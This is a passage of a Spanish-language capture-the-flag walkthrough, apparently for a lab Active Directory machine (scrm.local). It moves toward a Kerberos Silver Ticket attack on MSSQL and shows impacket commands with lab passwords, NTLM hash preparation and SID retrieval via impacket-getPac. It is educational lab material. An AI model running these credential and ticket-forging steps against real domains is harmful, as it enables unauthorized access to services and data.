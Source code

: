 Intentemoslo con el **usuario ksimpson**:
```bash
impacket-getTGT scrm.local/ksimpson:ksimpson
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ksimpson.ccache
                                                                                                                                                                                                                 
export KRB5CCNAME=ksimpson.ccache

impacket-mssqlclient dc1.scrm.local -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(DC1): Line 1: Login failed for user 'SCRM\ksimpson'.
```

Nada tampoco, lo que seguiría es aplicar un **Silver Ticket Attack**.

<h2 id="silver">Aplicando Silver Ticket Attack y Conectandonos a Servicio MSSQL</h2>

¿Qué es un **Silver Ticket Attack**?

| **Silver Ticket Attack** |
|:-----------:|
| *Un Silver Ticket Attack es un tipo de ataque dentro del ecosistema de Kerberos, un protocolo de autenticación ampliamente utilizado en entornos Windows para gestionar la autenticación de usuarios y servicios en una red. En este ataque, el atacante obtiene acceso no autorizado a servicios específicos mediante la creación de un "silver ticket" que es utilizado para autenticarse en un servicio Kerberizado.* | 

<br>

Acá te dejo un par de blogs con la explicación de este ataque:
* <a href="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket" target="_blank">HackTricks: Silver Ticket</a>

* <a href="https://www.hackingarticles.in/domain-persistence-silver-ticket-attack/" target="_blank">Domain Persistence: Silver Ticket Attack</a>

En resumen, para aplicar este ataque necesitamos los siguientes datos:
* Un usuario y contraseña valido
* El SPN
* El NTLM Hash de la contraseña del usuario
* El SID del dominio
* El Dominio del AD
* Eñ servidor del dominio

Nosotros ya tenemos el usuario y contraseña válido, el SPN, el dominio del AD y el servidor del dominio.

Obtengamos el **NTLM Hash** de la contraseña del **usuario sqlsvc** con la siguiente página:
<a href="https://codebeautify.org/ntlm-hash-generator" target="_blank">NTLM Hash Generator</a>

Transfórmalo a minúscula:
```bash
echo "B999A..." | tr '[A-Z]' '[a-z]'
b999a...
```
Guarda este **NTLM Hash**.

Para obtener el **dominio SID**, vamos a ocupar la herramienta **impacket-getPac**. Debemos indicarle el administrador con `-targetUser`, luego el dominio y el usuario y contraseña:
```bash
impacket-getPac -targetUser Administrator scrm.local/sqlsvc:Pegasus60
KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   2462292332 
    dwHighDateTime:                  31134767 
...
...
EffectiveName:                   'administrator' 
FullName:                        '' 
LogonScript:                     '' 
```